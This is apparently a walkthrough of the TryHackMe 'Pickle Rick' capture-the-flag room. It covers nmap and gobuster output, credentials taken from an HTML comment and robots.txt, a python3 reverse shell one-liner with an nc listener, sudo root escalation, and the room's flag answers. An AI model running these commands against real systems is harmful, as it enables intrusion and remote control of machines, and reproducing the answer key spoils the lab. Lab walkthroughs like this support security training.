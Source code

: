 # Tryhackme

## **Pickle Rick pentest and hacking**

- ### Port scanning with nmap

  ```bash
  nmap 10.10.223.5
  ```

  | PORT   | STATE | SERVICE |
  | ------ | ----- | ------- |
  | 22/tcp | open  | ssh     |
  | 80/tcp | open  | http    |

  ```bash
  nmap -sV -p 22,80 10.10.223.5
  ```

  | PORT   | STATE | SERVICE | VERSION                                                      |
  | ------ | ----- | ------- | ------------------------------------------------------------ |
  | 22/tcp | open  | ssh     | OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0) |
  | 80/tcp | open  | http    | Apache httpd 2.4.18 ((Ubuntu))                               |

- ### Open webapplication with browser **10.10.223.5**

  1.  html comments

      ***

      Note to self, remember username!

      > Username: R1ckRul3s

      ***

  2.  url/robots.txt
      ***
      > Wubbalubbadubdub
      ***
  3.  url/login.php

      ***

      > username: R1ckRul3s

      > password: Wubbalubbadubdub

      ***

  4.  login and execute reverse shell using python3

  <https://www.revshells.com/>

  <https://pentestmonkey.net/>

  - Reverse shell command
    ```python3
        export RHOST="1.1.1.1";export RPORT=3333;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")
    ```
  - Listener command
    ```bash
    nc -lvnp 3333
    ```
  - Root access
    ```bash
      sudo bash -i
    ```

- ### List directories with gobuster

  ```bash
  gobuster dir -u http://10.10.223.5/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt

  Gobuster v3.2.0-dev
  by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
  ===============================================================
  [+] Url:                     http://10.10.223.5/
  [+] Method:                  GET
  [+] Threads:                 10
  [+] Wordlist:                /usr/share/wordlists/dirb/common.txt
  [+] Negative Status codes:   404
  [+] User Agent:              gobuster/3.2.0-dev
  [+] Extensions:              php,html,txt
  [+] Timeout:                 10s
  ===============================================================
  Starting gobuster in directory enumeration mode
  ===============================================================
  /assets               (Status: 301) [Size: 313] [--> http://10.10.151.54/assets/]
  /denied.php           (Status: 302) [Size: 0] [--> /login.php]
  /index.html           (Status: 200) [Size: 1062]
  /index.html           (Status: 200) [Size: 1062]
  /login.php            (Status: 200) [Size: 882]
  /portal.php           (Status: 302) [Size: 0] [--> /login.php]
  /robots.txt           (Status: 200) [Size: 17]
  /robots.txt           (Status: 200) [Size: 17]

  Progress: 18456 / 18460 (99.98%)===============================================================
  ```

- ### Answer the questions below

  1. What is the first ingredient Rick needs?
     > mr. meeseek hair
  2. Whats the second ingredient Rick needs?
     > 1 jerry tear
  3. Whats the final ingredient Rick needs?
     > fleeb juice
